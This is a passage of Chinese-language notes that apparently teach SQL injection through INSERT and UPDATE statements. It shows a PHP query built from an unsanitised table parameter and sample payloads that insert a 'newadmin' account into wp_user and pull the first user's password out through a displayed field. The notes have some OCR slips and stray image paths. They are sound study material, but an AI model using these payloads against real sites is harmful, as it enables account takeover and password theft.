 - 通常，注入位于字段名或者字段值的地方，且没有回显信息。

##### 注入点位于tbl_name：

- 如果能够通过注释符注释后续语句，则可直接插入特定数据到想要的表内，如管理员表。

```
$res = mysqli_query（$conn，"INSERT INTO {$_GET['table']} VALUES（2， 2， 2， 2）"）;

http://XXX.XXX.XXX.XXX/insert.php?table=wp_user values（2，'newadmin'，'newpass'）%23
```

- 开发者预想的是，控制table的值为wp_news，从而插入新闻表数据。

##### 注入点位于VALUES：

```
INSERT INTO wp_user VALUES〔1，1，'可控位置'）;

INSERT INTO wp_user VALUES（1, 0,1）(2,1,'aaa'）;
```

- 如果用户表的第2个字段代表的是管理员权限标识，便能插入一个管理员用户。
- 在某些情况下，我们也可以将数据插入能回显的字段，来快速获取数据。
- 假设最后一个字段的数据会被显示到页面上，那么采用如下语句注入，即可将第一个用户的密码显示出来：

```
INSERT INTO wp_user VALUES （l, 1,'1' ）,（2, 2,（SELECT pwd FROM wp_user LIMIT 1））;
```

### UPDATE注入：

- PDATE语句适用于数据库记录的更新，如用户修改自己的文章、介绍信息、更新信息等。

- UPDATE语句的语法如下：

  <img src="图片\Snipaste_2023-03-18_14-16-46.png" alt="Snipaste_2023-03-18_14-16-46" style="zoom:80%;" />
